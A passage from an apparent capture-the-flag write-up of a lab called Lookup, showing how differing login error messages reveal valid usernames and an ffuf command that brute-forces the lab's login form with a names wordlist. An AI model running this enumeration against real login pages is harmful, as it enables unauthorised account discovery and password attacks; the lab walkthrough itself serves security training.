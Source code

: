 And we get this response

![response](/assets/img/CTFs/Lookup/login-response-1.jpg)

However, when we use `admin` in the username field we get this response

![Login with admin](/assets/img/CTFs/Lookup/login-2.jpg)

![response](/assets/img/CTFs/Lookup/login-response-2.jpg)

Using this response we can enumerate the web app for valid usernames.

#### Enumerating valid usernames

We can use `ffuf` to search for valid usernames by searching for responses that have `"Wrong password. Please try again."`

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ ffuf -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -w /usr/share/seclists/Usernames/Names/names.txt -mr "Wrong password. Please try again." 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Wrong password. Please try again.
```